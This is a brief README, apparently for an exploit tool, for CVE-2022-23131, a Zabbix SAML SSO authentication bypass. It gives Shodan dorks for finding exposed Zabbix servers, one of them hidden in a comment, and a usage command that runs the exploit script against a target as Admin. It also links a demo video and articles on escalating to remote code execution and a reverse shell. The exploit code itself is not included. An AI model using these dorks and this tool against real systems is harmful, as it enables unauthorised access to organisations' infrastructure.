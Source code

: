 # CVE-2022-23131
Zabbix - SAML SSO Authentication Bypass
- Shodan dorks:
```
title:Zabbix html:(SAML)
```
```
http.favicon.hash:892542951
```
```
"html: Zabbix" "html:(SAML)"
```
<!--
```
"html: Zabbix" "html:guest"
```
-->
- Usage
```
python3 zabbix_session_exp.py -t https:target.com -u Admin
```
### Demonstration Video (0:33)
[Zabbix - SAML SSO Authentication Bypass](https://youtu.be/xVY98l0QU-M)
<!-- 
RCE - https://habr.com/ru/companies/deiteriylab/articles/656829/
https://rioasmara.com/2022/04/16/exploit-zabbix-for-reverse-shell/
 -->
